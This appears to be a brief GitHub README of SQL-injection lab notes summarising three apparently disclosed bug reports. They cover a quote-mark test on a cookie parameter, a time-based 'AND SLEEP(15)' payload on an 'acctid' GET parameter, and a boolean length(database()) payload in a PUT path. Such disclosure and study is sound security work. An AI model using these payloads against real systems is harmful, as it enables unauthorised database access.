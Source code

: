 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable.
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1

